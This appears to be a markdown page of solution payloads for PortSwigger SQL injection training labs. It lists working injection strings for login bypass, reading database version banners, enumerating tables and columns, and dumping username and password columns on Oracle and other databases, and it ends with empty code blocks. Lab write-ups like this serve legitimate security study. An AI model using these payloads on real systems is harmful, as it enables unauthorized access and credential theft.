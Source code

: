 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2--
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
### Lab: SQL injection attack, listing the database contents on Oracle
```sh
order by 2--
```
```sh
'+UNION+SELECT+null,null+FROM+dual--
```
```sh
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
```sh
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
```sh
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
### Lab: SQL injection UNION attack, determining the number of columns returned by the query
```sh
order by 3--
```
```sh
'union select null,null,null--
```
###
```sh

```
```sh

```
